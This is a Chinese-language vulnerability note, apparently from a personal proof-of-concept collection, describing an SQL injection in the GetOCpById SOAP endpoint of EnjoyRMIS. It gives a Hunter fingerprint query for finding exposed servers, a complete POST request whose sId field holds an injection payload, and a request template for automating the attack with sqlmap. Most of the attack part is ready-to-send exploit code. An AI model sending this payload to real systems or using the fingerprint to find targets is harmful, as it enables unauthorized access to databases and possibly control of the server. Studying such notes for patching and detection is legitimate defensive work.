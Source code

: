 # EnjoyRMIS GetOCpById存在SQL注入漏洞

# 一、漏洞简介
EnjoyRMIS GetOCpById存在SQL注入漏洞,攻击者可通过该漏洞获取数据库敏感信息甚至可控制服务器。

# 二、影响版本
+ EnjoyRMIS

# 三、资产测绘
+ hunter`web.body="CheckSilverlightInstalled"`
+ 特征

![1700576375104-73ed7b01-1186-48d1-a163-ef4068a88d89.png](./img/7G5cfT60yTl1WE3D/1700576375104-73ed7b01-1186-48d1-a163-ef4068a88d89-619455.png)

# 四、漏洞复现
```plain
POST /EnjoyRMIS_WS/WS/POS/cwsoa.asmx HTTP/1.1
Host: xx.xx.xx.xx
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetOCpById"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetOCpById xmlns="http://tempuri.org/">
      <sId>string' AND 9068 IN (SELECT (CHAR(113)+CHAR(106)+CHAR(98)+CHAR(113)+CHAR(113)+(SELECT (CASE WHEN (9068=9068) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(122)+CHAR(122)+CHAR(107)+CHAR(113))) AND 'kNzW'='kNzW</sId>
    </GetOCpById>
  </soap:Body>
</soap:Envelope>
```

![1700645106150-d7a06c88-1022-40b1-add9-f30ac12c3621.png](./img/7G5cfT60yTl1WE3D/1700645106150-d7a06c88-1022-40b1-add9-f30ac12c3621-126759.png)

sqlmap

```plain
POST /EnjoyRMIS_WS/WS/POS/cwsoa.asmx HTTP/1.1
Host: xx.xx.xx.xx
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetOCpById"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetOCpById xmlns="http://tempuri.org/">
      <sId>string</sId>
    </GetOCpById>
  </soap:Body>
</soap:Envelope>
```

![1700645126934-9d93850e-de88-4f90-8152-f31c638c3f10.png](./img/7G5cfT60yTl1WE3D/1700645126934-9d93850e-de88-4f90-8152-f31c638c3f10-995088.png)



> 更新: 2024-02-29 23:55:45  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/cz8ou2w7wpwho4p8>
